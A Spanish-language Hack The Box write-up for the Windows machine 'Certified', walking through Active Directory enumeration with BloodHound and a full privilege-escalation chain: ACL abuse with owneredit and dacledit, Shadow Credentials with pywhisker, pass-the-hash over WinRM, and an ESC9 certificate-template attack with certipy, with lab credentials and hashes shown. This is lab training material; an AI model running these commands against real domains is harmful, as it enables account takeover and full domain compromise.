




## Enumeración

En esta ocasión nos enfrentamos a una máquina Windows. Al hacer el escaneo de puertos, vemos una gran cantidad de puertos abiertos.


Esto nos puede hacer entender que estamos frente a un caso de [Active Directory](# "Servicio de Microsoft que gestiona usuarios, equipos y recursos en una red, centralizando autenticación y permisos."), así que realizaremos una enumeración básica antes de usar [BloodHound](# "Herramienta que analiza relaciones en Active Directory para identificar rutas de ataque y posibles privilegios explotables."). Me parece una máquina perfecta para entender cómo funciona la enumeración en entornos Windows y cómo podemos ir descartando rutas potenciales para obtener acceso.

Vamos a ejecutar el escaneo de scripts básicos con nmap.


Los scripts muestran un dominio y sus subdominios, que podemos añadir al archivo `/etc/hosts`, de modo que nuestra máquina pueda resolverlos y redirigirlos a la IP correspondiente.

Hack The Box nos proporciona las credenciales **username**: _judith.mader_ **password**: _judith09_ 

- Confirmamos si WinRM está activo y accesible en DC01.

```bash
nxc smb certified.htb -u 'judith.mader' -p 'judith09'
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09
```

> El servicio está activo, pero no tenemos las credenciales correctas para acceder.

- Listamos los recursos compartidos en SMB, pero no encontramos nada relevante que llame la atención.
```bash
nxc smb certified.htb -u 'judith.mader' -p 'judith09' --shares
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share 
```
Podemos ver todo de forma más cómoda usando _**ldapdomaindump**_ y desplegando un servicio web local para revisar grupos y usuarios. 

## Reconocimiento 

Ya podemos empezar a ver cómo usaremos BloodHound para obtener acceso a la máquina y visualizar el camino que debemos seguir para conseguir acceso root.
Primero debemos obtener nuestro archivo `.zip` para subirlo a BloodHound.

##### BloodHound

Para obtener nuestro archivo `.zip` utilizaremos [bloodhound.py](https://github.com/dirkjanm/BloodHound.py).

```
python3 bloodhound.py -u judith.mader -p judith09 -ns 10.10.11.41 --zip -c All -d certified.htb
```

Para montar el servidor web de [BloodHound](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart), basta con seguir las indicaciones del sitio oficial, es un proceso bastante sencillo.

Esto te dará una contraseña con la que podrás iniciar sesión junto con el usuario `admin`.


Una vez dentro, tenemos un botón _Upload Files_ donde subiremos el archivo `.zip` que contiene varios ficheros JSON con la información recolectada del dominio.

Ahora viene lo interesante: si nunca has usado BloodHound, al principio puede parecer confuso, pero en realidad es bastante intuitivo. Con el archivo cargado, podemos empezar a explorar cómo está estructurado el Directorio Activo.

Lo más común es listar un camino corto hacia el administrador y ver cómo se organiza: los permisos de cada grupo y los usuarios existentes (esto solo para tener una idea de la estructura del AD).


Ya que tenemos una pequeña idea de la organización, veamos qué puede hacer nuestro usuario _judith.mader_. Para ello, lo marcamos con [Add Owned](# "Marca un usuario o equipo como comprometido en BloodHound para recalcular rutas de ataque desde ese punto.").


BloodHound nos permite ver qué capacidad administrativa tenemos sobre otros objetos y así ir escalando privilegios dentro del **AD**. El método que uso es revisar los _Outbound Object Control_ hasta ver hasta dónde llego y luego crear una ruta para escalar.



Ya con la ruta definida, empezamos nuestra escalada.

## Explotación

Para escalar en el Directorio Activo, BloodHound nos indica las relaciones de control dentro del grafo AD. El primero que encontramos es _judith.mader_ → _Management_.


La primera escalada consiste en cambiar la propiedad del objeto, otorgarnos permisos especiales sobre el grupo y, ya con esos permisos, añadirnos a él. La mayoría de estas herramientas están en el repositorio [CertiPy](https://github.com/ly4k/Certipy), dentro del directorio `bin`.

##### _judith.mader_ → _Management_

- 1º [Owneredit](# "Script de Impacket que permite cambiar la propiedad de un objeto en Active Directory para tomar control sobre él.") para tomar control sobre el objeto.

```python
owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09'
```

- 2º [dacledit.py](# "Script de Impacket que modifica las ACL en Active Directory para otorgar o revocar permisos sobre un objeto.") para otorgarnos permisos de escritura.

```python
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=Certified,DC=HTB' 'certified.htb/judith.mader:judith09'
```

- 3º [net](# "Herramienta de Samba que permite administrar usuarios y grupos en entornos Windows/AD desde la línea de comandos.") para añadirnos al grupo.

```python
net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"
```

Con esto nos añadimos al grupo. Para confirmar si estamos dentro, podemos usar [rpcclient](# "Herramienta de Samba que permite interactuar con servicios RPC de Windows para enumerar y administrar recursos de un dominio.").


Ya podemos confirmar que nos hemos añadido correctamente.



##### _Management_ → _Management_svc_

En este paso para escalar hay dos opciones: romper un hash o usar _Shadow Credentials_. Para no alargar el artículo, el hash no se encuentra en el diccionario **rockyou**, así que mostraré cómo funcionan las [Shadow Credentials](# "Técnica que abusa de permisos en AD para añadir claves alternativas a una cuenta y autenticarse como ella sin conocer su contraseña.").


- 1º Para usar las _Shadow Credentials_ instalamos [pywhisker](https://github.com/ShutdownRepo/pywhisker)

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```


Esto nos devolverá un hash y una _URL_ para clonar el repositorio, que contiene herramientas para obtener nuestro [TGT](# "TGT: Ticket Granting Ticket emitido por el KDC en Kerberos, usado para solicitar otros tickets de servicio sin reenviar credenciales."). 

Requisitos para usarla: 

    > Archivo .pfx
    > [i] Passwort für PFX: <contenido>

```python
python3 gettgtpkinit.py -cert-pfx bULgmTV1.pfx -pfx-pass bGF4SsQMag0V5oke1LTg -dc-ip 10.10.11.41 certified.htb/management_svc management.ccache
```
<span style="font-size:12px">_Para usar esta herramienta, tu hora y la de la víctima deben estar sincronizadas. Esto se puede hacer con `ntpdate`._</span>



- [getnthash.py](# "Script de Impacket que extrae el hash NTLM de un usuario en Active Directory usando sus credenciales válidas.") para extraer el hash.

```
python3 getnthash.py -key ac0dc7ee3fcba2a2bf12be74a37e15607bb61d8766e3b7de09b100aa0d485a0b -dc-ip 10.10.11.41 certified.htb/management_svc
```

Si nos da un error indicando que no se encontró el TGT en la caché de Kerberos, debemos indicarlo mediante la variable `KRB5CCNAME`.

```bash
KRB5CCNAME=management.ccache python3 getnthash.py -key ee16ec89d07c92667f8a3e1535269f5dcd606eba51f09f3375515ecfec46fff0 -dc-ip 10.10.11.41 certified.htb/management_svc
```

##### Ingresando como el usuario management_svc

Ya con el hash obtenido, confirmamos si podemos conectarnos vía WinRM.

```bash
nxc winrm certified.htb -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584'
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```

En efecto, podemos conectarnos con _evil-winrm_. En el escritorio encontraremos la primera flag.

```
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

#### Accediendo como administrador

Ya que tenemos los hashes del usuario _management_svc_, podemos ejecutar nuevamente un ataque de _Shadow Credentials_.


Volvemos a usar `pywhisker` para obtener nuestra contraseña y el archivo `.pfx`, esta vez como el usuario _management_svc_ atacando a _ca_operator_.

```python
pywhisker -d "certified.htb" -u "management_svc" --hashes :a091c1832bcdd4677c28b5a6a1295584 --target "ca_operator" --action "add"
```

Y repetimos el proceso anterior.

- 1º Creamos el TGT:

```
python3 gettgtpkinit.py -cert-pfx ../mmzBceHE.pfx -pfx-pass cBdb8wYDwF93taIIZe7L -dc-ip 10.10.11.41 certified.htb/ca_operator ca_operator.ccache
```
- 2º Generamos el hash:

```
KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key d54f430c7131a345a23df9eb39dc13a56d3dbb85e292ce2628a19c906242c4b9 -dc-ip 10.10.11.41 certified.htb/ca_operator
```

Recuerda que las horas deben estar sincronizadas.

#### Dando privilegios de administrador


Enumeramos los privilegios del usuario _ca_operator_ y encontramos que tiene una plantilla vulnerable al ataque **ESC9**.



En el [repositorio](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) encontramos la forma de escalar privilegios.

- 1º Actualizamos el UPN de la víctima (_ca_operator_) para que apunte al `sAMAccountName` del administrador:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'administrator' -user 'ca_operator' update
```
- 2º Pedimos un certificado abusando de la plantilla insegura usando las credenciales de la víctima:

```
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```
- 3º Revertimos el UPN de la víctima:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'ca_operator' -user 'ca_operator' update
```
- 4º Nos autenticamos usando el certificado obtenido:

```
certipy auth -pfx administrator.pfx -domain certified.HTB
```


Ahora ya tenemos un hash para acceder como administrador. Verificamos si podemos ingresar vía WinRM.


Al conectarnos con Evil-WinRM, accedemos al escritorio del administrador y obtenemos la flag final.

```
evil-winrm -i 10.10.11.41 -u "administrator" -H '0d5b49608bbce1751f708748f67e2d34'
```

# FIN
